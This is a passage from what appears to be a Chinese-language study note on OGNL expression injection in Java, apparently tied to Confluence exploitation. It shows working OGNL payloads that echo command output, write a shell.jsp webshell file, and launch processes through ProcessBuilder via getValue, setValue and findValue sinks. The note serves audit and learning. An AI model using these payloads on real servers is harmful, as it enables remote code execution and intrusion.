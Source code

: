 实战时可通过 response 对象回显

```java
#writer = response.getWriter()
#writer.println("exec result")
#writer.flush()
#writer.close()
```



3) 文件操作

单纯的命令执行无法满足需求时，可以写入 webshell

```
String expression =
    "#filepath = 'F:/workspace/java/application/atlassian/confluence/code/local/confluence-exploit-beta/',"+
    "#filename = 'shell.jsp'," +
    "#filecontent = 'pwned by 1337'," +
    "#fos=new java.io.FileOutputStream((#filepath + #filename))," +
    "#fos.write(#filecontent.getBytes())," +
    "#fos.close()";
OgnlContext context = new OgnlContext();
Ognl.getValue(expression,context);
```

测试效果

![image-20221002162900145](./img/image-20221002162900145.png)



5) **进阶知识**

- 只作简单介绍，后续会更系统详细的学习 OGNL 更底层的知识

1) 如何触发 RCE Sink

- 方便白盒审计

```
getValue()
setValue() # 本质还是 getValue
findValue() # 本质还是 getValue
```

触发例子：

```
# getValue()
OgnlContext context = new OgnlContext();
Ognl.getValue("(new java.lang.ProcessBuilder(new java.lang.String[]{'calc'})).start()", context);

# setValue()
OgnlContext context = new OgnlContext();
Ognl.setValue("((new java.lang.ProcessBuilder(new java.lang.String[]{'calc'})).start())(1)", context,"");

# findValue()
OgnlValueStack stack = new OgnlValueStack();
stack.findValue("(new java.lang.ProcessBuilder(new java.lang.String[]{'calc'})).start()");
```
